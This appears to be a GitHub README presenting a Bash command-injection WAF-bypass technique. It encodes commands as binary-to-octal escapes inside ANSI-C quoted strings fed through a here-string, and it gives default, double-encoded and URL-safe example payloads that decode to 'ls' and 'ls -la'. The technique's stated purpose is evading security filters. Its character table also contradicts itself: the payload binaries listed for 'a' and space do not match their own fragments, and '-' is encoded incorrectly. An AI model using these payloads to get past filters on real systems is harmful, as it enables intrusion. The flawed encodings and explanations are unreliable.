

## Advanced Command Injection WAF Bypassing using Bash
This technique performs command obfuscation without relying on `eval` or `exec` by chaining Bash features: binary literals are interpreted via arithmetic expansion `$((2#binaryValue))` to produce decimal values that correspond to octal digits. <br>
These digits are then reinterpreted as octal escape sequences within ANSI-C quoted strings `$'...'`, reconstructing the original command. The payload is delivered through a here-string `<<<`, causing the decoded string to be consumed as input by a command interpreter (e.g., bash), forming a non-obvious execution path. <br>
This article focuses on conceptual analysis of multi-base obfuscation in Bash and is not essentially intended for practical deployment, but still could be used in CTF scenarios.

-> See [Full Explanation](#full-explanation) for more in-depth information.

<br>

<p align="center">
  
</p>

<br>
<hr>
<br>

## Examples:

### Default encoding:
> Command: `ls`
```console
${0##\-}<<<$\'\\$(($((1<<1))#10011010))\\$(($((1<<1))#10100011))\'
```

### Double Encoding (--double-encode, -e):
> Command: `ls`
```console
${0##\-}<<<$\'\\$(($((${##}<<${##}))#${##}${#}${#}${##}${##}${#}${##}${#}))\\$(($((${##}<<${##}))#${##}${#}${##}${#}${#}${#}${##}${##}))\'
```

### Url Safe Encoding (--url-safe, -u):
> Command: `ls`
```console
${0%23%23\\-}<<<$\'\\$(($((1<<1))%2310011010))\\$(($((1<<1))%2310100011))\'
```

<!--
### Video Example:

[](https://www.youtube.com/watch?v=B4mpV44Z1-8)

-->

<br>
<hr>
<br>

### Full Explanation:

## Advanced Bash Command Obfuscation Technique

This technique encodes arbitrary bash commands into an obfuscated one-liner that executes without using eval, exec, or external tools. It leverages bash's parsing rules, ANSI-C quoting, and arithmetic expansion to reconstruct and execute commands at runtime.


## Payload Structure
> Single Word Command (ls)
```
${!##-}<<<$\'\\$(($((1<<1))#10011010))\\$(($((1<<1))#10100011))\'
```

> Multi-Word / Commands with spaces (ls -la)
```
${!##-}<<<{\$\'\\$(($((1<<1))#10011010))\\$(($((1<<1))#10100011))\',\$\'\\$(($((1<<1))#00101101))\\$(($((1<<1))#10011010))\\$(($((1<<1))#10011001))\'}
```


## Component Breakdown
1. `${!##-}` - Parameter Expansion

| Component |	Meaning |
| ------------- | ------------- |
| `${!}`	| Expands to PID of last background job (a number) |
| `##-`	| Removes leading - if present (e.g., -bash -> bash) |
| Result |	A numeric value that bash treats as a no-op command name |

```bash
# Example expansion
$ echo ${!}
12345
$ echo ${!##-}
12345
```

<br>

2. `<<<` - Here-String Redirection

Feeds the right-hand side as stdin to the command on the left:
```console
command <<< "input text"
```
In this technique, the numeric result of `${!##-}` isn't a real command, but bash still processes the here-string, causing the `$'...'` content to be evaluated.

<br>

3. `$'...'` - ANSI-C Quoting

Enables escape sequence interpretation inside the string:
| Escape | Interpretation         |
|--------|------------------------|
| \154   | 154₈ -> 108₁₀ -> "l"     |
| \163   | 163₈ -> 115₁₀ -> "s"     |
| \n     | newline                |
| \t     | tab                    |

```bash
$ $'\154\163'
ls  # Bash attempts to execute "ls"
```

<br>

4. `\\$(($((1<<1))#BINARY))` - The Encoding Engine

This is the core obfuscation layer. Here's how a single character is encoded:

- Encoding Chain for `l`:
```
1. Character -> ASCII (decimal)
   "l" -> 108
2. Same value, different representations
   108 (decimal) = 154 (octal) = 10011010 (binary)
3. Bash interprets binary -> decimal
   $((2#10011010)) -> 154   <- this is decimal
4. Turn number into an octal escape string
   "154" -> "\154"   (inside $'...')
5. Bash interprets octal escape -> character
   \154 (octal) -> 108 (decimal) -> "l"

10011010₂ -> 154₁₀ -> "\154" -> 154₈ -> 108₁₀ -> "l"
```

- Visual Flow:
```
"l" -> 108₁₀ ≡ 154₈ ≡ 10011010₂
                V
      $((2#10011010)) -> 154₁₀
                V
          "\154" -> 154₈ -> 108₁₀ -> "l"
```

<br>

5. Why `\\$((...))` Instead of `$((...))`?

| In Script |	After `printf` | Inside `$'...'` | Final Result |
| --------- | ------------ | ------------- | ------------ |
| `\\$((...))` | `\$((...))` | `\154` (literal backslash + number) | ✅ Octal escape -> char |
| `$((...))` | `$((...))` | `154` (just a number) | ❌ Not an escape |

The **double backslash** is critical. It survives `printf` and becomes a single backslash inside `$'...'`, which bash interprets as an octal escape.

<br>

6. Multi-Word / Commands with spaces - Comma Separation

For commands with spaces, the payload uses brace expansion:

```
${!##-}<<<{\$\'...\',\$\'...\'}
```

| Part | Purpose |
| ---- | ------- |
| `{` | Opens command group |
| `\$\'...\'` |	First word (`ls`) |
| `',\$\'` | Comma separator + new `$'...'` block |
| `...\'` | Second word (`-la`) |
| `}` |	Closes command group |

Bash treats `{cmd1,cmd2}` as a **brace expansion** - both commands execute sequentially.

<br>

## Full Execution Flow

```
┌─────────────────────────────────────────────────────────────────┐
│ 1. User runs: ./encode.sh "ls -la"                              │
│ 2. Script processes each character:                             │
│    char -> ASCII -> octal -> binary (for obfuscation)           │
│ 3. Script builds payload using:                                 │
│    - $'...' (ANSI-C quoting for octal escapes)                  │
│    - brace expansion (maybe multiple chunks)                    │
│    - <<< feeds string as input (here-string)                    │
│ 4. User pastes payload into terminal                            │
│ 5. Bash evaluation order:                                       │
│    a) Brace expansion (if present)                              │
│    b) Parameter expansion (${...})                              │
│    c) ANSI-C quoting: $'...' -> interprets \NNN (octal)         │
│    d) Word splitting                                            │
│    e) Here-string (<<<) feeds final string to command           │
│ 6. Resulting decoded string:                                    │
│    "ls -la"                                                     │
│ 7. That string is executed on the shell (depending on context)  │
└─────────────────────────────────────────────────────────────────┘
```

## Character Reference Table

| Character |	ASCII₁₀ |	Octal₈ | Real Binary₂ | Payload Binary₂ | Payload Fragment |
| --------- | ----- | ----- | ----- | ------ | ---------------- |
| `l` |	108 |	154 |	01101100 | 10011010 | `$((2#10011010))` |
| `s` |	115 |	163 |	01110011 | 10100011 | `$((2#10100011))` |
| `-` |	45 | 055 | 00101101| 00101101 |	`$((2#00101101))` |
| `a` |	97 | 141 | 01100001 | 10001101 |	`$((2#10011001))` |
| ` ` | 32 | 040 | 00100000 | 00101000 | `$((2#00100000))` |


## Reverse Engineering Example:

```bash
# Binary -> Octal -> ASCII
$ echo "$((2#10011010))"  # 154
$ printf '\\%o' 154       # \154
$ printf '\154'           # l
```


## Security Notes

| Aspect | Details |
| ------ | ------- |
| Obfuscation Level |	Medium — bypasses casual inspection and simple pattern matching
| Detection |	Reversible with understanding of the encoding chain
| No `eval`/`exec` | Avoids common security filter triggers
| Pure Bash |	No external dependencies beyond `bc` for encoding
